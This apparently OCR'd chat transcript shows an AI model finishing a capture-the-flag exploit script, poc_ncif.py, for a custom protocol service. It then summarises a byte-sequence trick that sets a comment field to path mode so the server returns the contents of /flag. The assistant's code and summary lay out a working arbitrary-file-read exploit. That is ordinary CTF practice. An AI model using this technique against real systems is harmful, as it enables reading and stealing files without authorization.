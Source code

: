 ```Parsed fields:
                print(f"\nAuthor (MD5 of flag): {kv['Author']}")
        else:
            print(f"No parsable KV bundle. Raw chunk ({len(raw)} bytes)")

        # Second path: plaintext flag via comment-as-path trick
        try:
            plain = exploit_fetch_flag_via_comment(io)
            if plain:
                print(f"\nPlaintext flag via comment: {plain.decode('utf-8', errors='ignore')}")
            else:
                print("\nFailed to fetch plaintext flag via comment.")
        except Exception as e:
            print(f"\nError fetching plaintext flag via comment: {e}")
    finally:
        try:
            send_cmd(io, b"\x11")  # close session politely
        except Exception:
            pass
        io.close()


if __name__ == "__main__":
    main()



```

- Added a second exploit path that returns the plaintext flag:
  - Sequence: 0x10, 0x22, 0x31 <len><"/flag">, 0x30
  - 0x31 sets the “Comment” to path mode (type=2 already) with value "/flag"
  - 0x30 fetches the comment value, which the server reads from that path and returns as a tagged blob

- Implemented in `poc_ncif.py`:
  - New helpers `send_length_prefixed_blob`, `exploit_fetch_flag_via_comment`
  - The script now performs both:
    - PNG bundle read (MD5 hex of flag as Author)
    - Plaintext fetch via comment path trick and prints the flag

- How to run:
  - python3 poc_ncif.py
  - Look for “Plaintext flag via comment: …”

- Expected output includes your real flag string, not the MD5.

---

**User**

good job!

---
